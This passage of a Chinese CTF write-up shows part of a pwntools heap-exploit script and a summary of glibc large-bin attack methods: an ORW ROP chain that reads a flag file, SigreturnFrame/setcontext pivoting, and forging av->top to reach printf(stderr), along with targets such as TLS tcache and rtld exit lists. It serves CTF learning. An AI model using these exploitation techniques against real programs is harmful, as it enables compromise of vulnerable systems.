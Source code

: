 ```
exp+= p64(heap_addr+0x708)
exp+= p64(rdx_GG)
frame = SigreturnFrame()
frame.rip = ret
frame.rsp = heap_addr+0x800
frame['uc_stack.ss_size'] = libc.symbols['setcontext']+61
exp+= str(frame)

#ORW rop
exp+= Call(0, 0, buf, 0x30)
exp+= Call(2, buf, 0, 0)
exp+= Call(0, 3, buf, 0x30)
exp+= Call(1, 1, buf, 0x30)
Edit(1, exp)

#forge av-&gt;top and trigger assert fail
Delete(6)
Create(0x450)       #LB&lt;=&gt;G

addr = libc.address+0x1e3c00
exp = flat(0, 0, 0, addr-0x20)
Edit(6, exp)

Delete(4)
#trigger sort=&gt; top=chunkE =&gt; sysmalloc() =&gt; assert fail =&gt; printf(stderr)
Cmd(1)
sh.recvuntil('(: Size: ')
Num(0x450)

sleep(2)
sh.sendline('./flag\x00')
sh.interactive()
```

### <a class="reference-link" name="%E6%80%BB%E7%BB%93"></a>总结
<li>LargeBinAttack的思路
<ul>
- 打TLS中的tcache指针
- 打rtld中的exit函数链表
- 打stderr的_IO_FILE, 触发largebin中的assert error进入printf(stderr, …)
- 利用写入victim地址区伪造自闭链表, 然后尝试进行任意地址分配


## cissh

[![](https://p4.ssl.qhimg.com/t013096a605665dacb1.png)](https://p4.ssl.qhimg.com/t013096a605665dacb1.png)

[![](https://p2.ssl.qhimg.com/t019e6e214ecbeb5435.png)](https://p2.ssl.qhimg.com/t019e6e214ecbeb5435.png)
